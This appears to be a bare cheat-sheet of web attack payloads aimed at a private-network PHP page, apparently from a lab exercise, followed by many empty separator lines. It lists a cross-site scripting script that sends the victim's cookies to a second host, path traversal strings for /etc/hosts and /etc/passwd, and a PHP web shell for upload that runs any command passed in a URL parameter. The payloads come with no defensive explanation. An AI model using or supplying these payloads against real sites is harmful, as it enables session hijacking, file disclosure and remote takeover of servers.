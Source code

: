     10.50.29.184/path/pathdemo.php
________________________________________________________________________________________________________________
    <script>document.location="http://10.50.21.223:8000"+document.cookie;</script>
________________________________________________________________________________________________________________
## post method
    ../../../../../../ect/hosts
    ../../../../../../ect/passwd
________________________________________________________________________________________________________________
## Malicious File Upload:
    <HTML><BODY>
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <?php
    if($_GET['cmd']) {
      system($_GET['cmd']);
      }
    ?>
    </pre>
    </BODY></HTML>

________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________
